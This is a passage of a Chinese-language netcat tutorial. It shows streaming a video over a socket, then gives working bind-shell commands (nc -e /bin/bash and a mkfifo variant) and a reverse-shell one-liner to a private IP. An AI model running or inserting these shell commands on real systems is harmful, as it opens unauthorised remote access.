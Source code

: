   $cat video.avi | nc -l 1567

这里我们只是从一个视频文件中读入并重定向输出到netcat客户端

  $ nc 172.31.100.7 1567 | mplayer -vo x11 -cache 3000 -

这里我们从socket中读入数据并重定向到mplayer。

## 打开一个shell
我们已经用过远程shell, 使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

  # Server
  nc -l 1567 -e /bin/bash -i
  # Client
  nc 172.31.100.7 1567

这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash

假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

  #Server
  mkfifo /tmp/tmp_fifo
  cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo

这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。

说明：

1. 从网络收到的输入写到fifo文件中
2. cat 命令读取fifo文件并且其内容发送给sh命令
2. sh命令进程受到输入并把它写回到netcat。
2. netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

  Client
  $nc -n 127.0.0.1 1567

你会得到一个shell提示符在客户端

### 反向shell
反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

  服务端
  $nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

  客户端
  $nc 172.31.100.7 1567 -e /bin/bash
